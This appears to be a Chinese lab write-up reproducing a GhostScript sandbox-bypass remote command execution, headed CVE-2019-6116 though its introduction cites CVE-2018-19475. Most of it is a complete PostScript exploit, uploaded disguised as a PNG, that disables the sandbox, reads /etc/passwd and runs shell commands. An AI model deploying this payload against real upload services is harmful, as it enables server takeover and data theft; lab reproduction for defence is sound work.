 # GhostScript 沙箱绕过（命令执行）漏洞（CVE-2019-6116）

###### by ADummy

### 0x00利用路线

​			构造poc png图片--->上传图片--->有回显命令执行

### 0x01漏洞介绍

​			2018年底来自Semmle Security Research Team的Man Yue Mo发表了CVE-2018-16509漏洞的变体CVE-2018-19475，可以通过一个恶意图片绕过GhostScript的沙盒，进而在9.26以前版本的gs中执行任意命令。

### 0x02漏洞复现

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

将如下代码做成png文件，上传。

```
%!PS
% extract .actual_pdfpaintproc operator from pdfdict
/.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

/exploit {
    (Stage 11: Exploitation...)=

    /forceput exch def

    systemdict /SAFER false forceput
    userparams /LockFilePermissions false forceput
    systemdict /userparams get /PermitFileControl [(*)] forceput
    systemdict /userparams get /PermitFileWriting [(*)] forceput
    systemdict /userparams get /PermitFileReading [(*)] forceput

    % update
    save restore

    % All done.
    stop
} def

errordict /typecheck {
    /typecount typecount 1 add def
    (Stage 10: /typecheck #)=only typecount ==

    % The first error will be the .knownget, which we handle and setup the
    % stack. The second error will be the ifelse (missing boolean), and then we
    % dump the operands.
    typecount 1 eq { null } if
    typecount 2 eq { pop 7 get exploit } if
    typecount 3 eq { (unexpected)= quit }  if
} put

% The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some
% executable arrays onto the operand stack that contain .forceput, but are not
% marked as executeonly or pseudo-operators.
%
% The routine was attempting to pass them to ifelse, but we can cause that to
% fail because when the routine was declared, it used `bind` but many of the
% names it uses are not operators and so are just looked up in the dictstack.
%
% This means we can push a dict onto the dictstack and control how the routine
% works.
<<
    /typecount      0
    /PDFfile        { (Stage 0: PDFfile)= currentfile }
    /q              { (Stage 1: q)= } % no-op
    /oget           { (Stage 3: oget)= pop pop 0 } % clear stack
    /pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op
    /gput           { (Stage 5: gput)= }  % no-op
    /resolvestream  { (Stage 6: resolvestream)= } % no-op
    /pdfopdict      { (Stage 7: pdfopdict)= } % no-op
    /.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index
    /pdfdict        { (Stage 9: pdfdict)=
        % cause a /typecheck error we handle above
        true
    }
>> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

(Should now have complete control over ghostscript, attempting to read /etc/passwd...)=

% Demonstrate reading a file we shouldnt have access to.
(/etc/passwd) (r) file dup 64 string readline pop == closefile

(Attempting to execute a shell command...)= flush

% run command
(%pipe%id > /tmp/success) (w) file closefile

(All done.)=

quit
```

![GhostScript_沙箱绕过_RCE3_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/GhostScript_沙箱绕过_RCE3_1.jpg)



![GhostScript_沙箱绕过_RCE3_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/GhostScript_沙箱绕过_RCE3_2.jpg)